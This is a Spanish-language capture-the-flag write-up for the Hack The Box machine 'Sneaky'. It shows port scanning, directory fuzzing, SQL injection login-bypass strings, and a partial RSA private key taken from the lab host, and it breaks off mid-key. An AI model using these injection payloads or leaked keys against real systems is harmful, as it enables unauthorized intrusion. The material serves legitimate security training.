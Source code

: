 ```yaml
---
layout: post
title:  "Maquina  Retirada Sneaky de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada SNEAKY
tags: HTB, IPV6, SNMP, SQLInjecction, Web Hacking, BOF, Maquinas Retiradas, Writeup
---
```


# Sneaky ~ Hack The Box
```bash
$" nmap -p- --open -sS -T5 -v -n -Pn -oG allports 10.10.10.20       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Under Development!
```
Efectuamos un reconocimiento con la herramienta `whatweb` en el puerto `HTTP`:
```bash
# wtw 10.10.10.20                                                                                                            
http://10.10.10.20 [200 OK] Apache[2.4.7], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.10.10.20], Title[Under Development!]
```
Haciendo FUZZING web:
```bash
#" wfuzz -c -L --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://10.10.10.20/FUZZ    " 

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                   
=====================================================================
                                                                                 
000000810:   200        14 L     32 W       464 Ch      "dev"  
```
Encontramos un directorio, procedemos a hecharle un vistazo visual a la ruta y a la web:
vemos que es un Loguin super Cutre
Probamos con Injecciones sql Basicas
```sql
# admin' or 1=1-- -
# admin' or 1=1;-- -  	>>> Nos devuelve un user

			"	name: admin             "
			" 	name: thrasivoulos        "
```
Y una `Clave Id_rsa` (clave privada)

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAvQxBD5yRBGemrZI9F0O13j15wy9Ou8Z5Um2bC0lMdV9ckyU5
Lc4V+rY81lS4cWUx/EsnPrUyECJTtVXG1vayffJISugpon49LLqABZbyQzc4GgBr
3mi0MyfiGRh/Xr4L0+SwYdylkuX72E7rLkkigSt4s/zXp5dJmL2RBZDJf1Qh6Ugb
yDxG2ER49/wbdet8BKZ9EG7krGHgta4mfqrBbZiSBG1ST61VFC+G6v6GJQjC02cn
cb+zfPcTvcP0t63kdEreQbdASYK6/e7Iih/5eBy3i8YoNJd6Wr8/qVtmB+FuxcFj
oOqS9z0+G2keBfFlQzHttLr3mh70tgSA0fMKMwIDAQABAoIBAA23XOUYFAGAz7wa
Nyp/9CsaxMHfpdPD87uCTlSETfLaJ2pZsgtbv4aAQGvAm91GXVkTztYi6W34P6CR
h6rDHXI76PjeXV73z9J1+aHuMMelswFX9Huflyt7AlGV0G/8U/lcx1tiWfUNkLdC
CphCICnFEK3mc3Mqa+GUJ3iC58vAHAVUPIX/cUcblPDdOmxvazpnP4PW1rEpW8cT
OtsoA6quuPRn9O4vxDlaCdMYXfycNg6Uso0stD55tVTHcOz5MXIHh2rRKpl4817a
I0wXr9nY7hr+ZzrN0xy5beZRqEIdaDnQG6qBJFeAOi2d7RSnSU6qH08wOPQnsmcB
JkQxeUkCgYEA3RBR/0MJErfUb0+vJgBCwhfjd0x094mfmovecplIUoiP9Aqh77iz
```